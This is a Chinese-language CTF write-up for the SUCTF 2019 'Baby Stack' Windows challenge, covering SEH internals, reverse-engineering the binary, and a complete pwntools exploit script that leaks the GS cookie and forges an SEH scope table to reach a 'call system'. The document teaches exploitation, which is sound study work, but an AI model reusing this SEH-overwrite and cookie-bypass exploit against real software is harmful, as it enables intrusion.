# Baby Stack

SUCTF 2019

## Windows SEH

windows下通过SEH机制处理异常。在进程运行发生异常时，windows委托进程进行处理。若程序中有预先构造的异常处理链(SEH链)，则程序会根据SEH链处理异常，并按照指示继续执行；若程序中无SEH链，则系统会调用默认的SEH链处理异常，并将程序终止。

SEH链为单链表，结构体中存在两个元素：1、指向下一个SEH块的指针；2、异常处理函数。当一个进程触发异常处理时，会从SEH的第一个块开始遍历，若第一个块未能处理异常时，便将异常传递至下一个块进行处理，直到异常被处理或遍历完所有的SEH块。

通过Windbg获取teb之后，可从teb表地址获取SEH链地址，从而遍历SEH链，从中可以看到SEH块中的结构。

```
0:000> !teb
Wow64 TEB32 at 00000000009b1000
......

0:000> dt ntdll!_EXCEPTION_REGISTRATION_RECORD -l next poi(9b1000)
next at 0x00000000`009b3000
---------------------------------------------
   +0x000 Next             : 0x00b00000`ffffffff _EXCEPTION_REGISTRATION_RECORD
   +0x008 Handler          : 0x00000000`00aff000     _EXCEPTION_DISPOSITION  +aff000

next at 0x00b00000`ffffffff
---------------------------------------------
   +0x000 Next             : ???? 
   +0x008 Handler          : ???? 
Memory read error 00b0000100000007
```

操作系统中常见的异常如下：

> windows-SEH详解  看雪论坛  <https://bbs.pediy.com/thread-249592.htm>


## 分析调试

题目初始时即告诉了栈的地址和main函数的地址，但需要注意的是给的地址是存储main函数地址的值的地址，即指向main函数的指针的地址。

与题目交互的唯一方式就是输入的字符串，而通过静态分析看到该字符串存在栈上，而经过strlen判断字符串长度之后，进行了某些运算，然后调用输出字符串的函数，而后退出。而输入采用的是控制输入个数的scanf_s一类函数，因此栈溢出的可能性较小。


因此，考虑通过覆盖SEH后，触发异常，跳到伪造的SEH中。而通过操作系统的常见异常，判断可能在本程序中触发的异常有：浮点数溢出、读写不可访问地址或除数为0.

首先排除最容易的，除数为0。判断除数为0的方式是先找到是否存在除法，只要存在除法，就有除数为0的可能。通过字符串搜索，在汇编指令中搜索“div”指令来判断是否存在除法。



通过搜索结果可以看到，存在大量的除法，因此很有可能可以构造除0导致SEH。

从第一个看起，在main函数中有一次div操作，在运算之后，输出字符串之前。


而除数[esi]是通过运算
$$
[esi] - [eax]
$$
得到的，而[esi]又是栈上的值传递进来esi得到的，而该值又是通过main函数中的计算过程得到的：







因此我们如果能构造出合适的v30，使之与eax相等，则可以使除数为0，触发SEH。

通过动态调试，可以看到eax的值。多次调试之后，发现无论输入如何改变，最终eax的值是从栈中pop出来的，只与指向main函数指针的地址成固定偏移，为4BF3。因此：
$$
[eax] = MAINaddress + 4BF3
$$


而通过运算部分反推如下：先逆出运算部分的代码，并简化，如下：

```c++
int v7 = 0;
int v30 = 0;
for(v22 = 0; v22 < 8; v22++)
{
	char v23 = v31[v22]; //v31为输入字符串
	if(v23 - '0' > 9)//判断字符如果不为数字
	{
		if(v23 - 'A' <= 5)//如果为大写的A~F
		{
			v7 = v23 + 0x10 * v7 - 0x37;
			v30 = v7;
		}
	}
	else//数字或者ASCII小于数字的字符
	{
		v7 = v23 + 0x10 * (v7 - 0x3);
		v30 = v7;
	}
}
```

可以看出，实际上是把输入的字符串转换为16进制数，存在v30中，然后被传入esi。需要注意的是输入的字母必须为大写。因此，输入00D78551即可，其中0用来占位，以达到8位。

此时，我们触发了SEH，进入异常处理函数，通过结构体可以看到，进入了另一个特定的函数











可以看到，这个函数中，在一个10次的循环中，可以任意地址读。而另一个函数，第三个参数存储在栈上，第四个参数为0x100，猜测有可能会导致栈溢出。因此，我们可以考虑是否能栈溢出覆盖返回地址，从而getshell。或者，我们也可以考虑通过读非法地址或者栈溢出而再次触发异常。而此处我们可以任意地址读，因此我们可以考虑伪造一个SEH块。因此，我们先查找看看是否有system函数可以调用。



找到一个直接call system的地址，跳进去看，发现还是在之前那个函数中，但是未被反编译，直接通过call system执行type flag.txt。如果我们能控制程序跳到这个地方，则可以直接拿到flag。



而这个位置可以通过和指向main函数的指针的地址的偏移来计算

因此可以通过
$$
*MAINaddress+8266-3963 = *MAINaddress + 4903
$$
来跳转到获取flag指令的地址。

那么如何触发任意地址读和触发栈的函数？

任意地址读只是通过strcmp判断，因此只要输入yes即可。

栈的函数则需要通过双层if，只要输入不为yes，不为no的任意字符串即可。

下一步即可以开始构造SEH块了，先想办法读取上一个SEH块。可以从main函数中看到，上一个SEH块信息存入栈中时与一个___security_cookie做了异或，因此通过指向main函数的指针的地址加上偏移值获取该cookie.





由此可知，
$$
cookie = *MAINaddress - 03963 + 7c004 = *MAINaddress + 786a1
$$
因此，我们可以通过这个值伪造GS，从而绕过GS。

而栈上值的地址可以通过栈基址加偏移获取。

在栈上伪造SEH、GS之后，就可以通过栈溢出或者读非法地址来触发SEH了。因为再次构造栈溢出怕会覆盖之前构造的SEH，因此直接触发任意地址读写，然后输入任一字符就可以了。


## EXP

由于比赛服务器关闭，因此通过windows配置开放SSH给ubuntu，进行测试。

```python
from pwn import *
context.log_level="debug"
p=remote("192.168.43.254",22)
p.sendline("BabyStack.exe")
p.recvuntil("stack address = ")
stack_addr=int(p.recvuntil("\n").strip(),16)
p.recvuntil("main address = ")
main_addr=int(p.recvuntil("\n").strip(),16)
I_know = hex(main_addr+0x4BF3)[2:].upper().rjust(8,"0")
#print hex(stack_addr),hex(main_addr)

stack1 = stack_addr - 0x3C
stack2 = stack_addr - 0x38
stack3 = stack_addr - 0x34
stack4 = stack_addr - 0x30
shell = main_addr + 0x4903
SEH_scope_table = p32(0xFFFFFFE4)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFC0)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFFE)
SEH_scope_table += p32(shell)
SEH_scope_table += p32(shell)
cookie_addr = main_addr + 0x786A1
GS_addr=stack_addr - 0x18

#pause()

p.recvuntil("So,Can You Tell me what did you know?\n")
p.sendline(I_know)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(cookie_addr))
p.recvuntil("is ")
cookie=int(p.recvuntil("\n"),16)
#print hex(cookie)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack1))
p.recvuntil("is ")
stack11=int(p.recvuntil("\n"),16)
#print hex(stack11)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack2))
p.recvuntil("is ")
stack22=int(p.recvuntil("\n"),16)
#print hex(stack22)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack3))
p.recvuntil("is ")
stack33=int(p.recvuntil("\n"),16)
#print hex(stack33)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack4))
p.recvuntil("is ")
stack44=int(p.recvuntil("\n"),16)
#print hex(stack44)

payload = "A" * 4 
payload += SEH_scope_table
payload += "A" * 112
#payload = "A" * 4
#payload = "A" * 4
#payload = "A" * 4
payload += p32(stack11)
payload += p32(stack22) 
payload += p32(stack33) 
payload += p32(stack44) 
payload += p32(main_addr+0x1019A30-0x101395E) 
payload += p32(cookie^GS_addr) 
payload += p32(0)

#pause()

p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")
p.sendline(payload)
p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")

p.interactive()
```

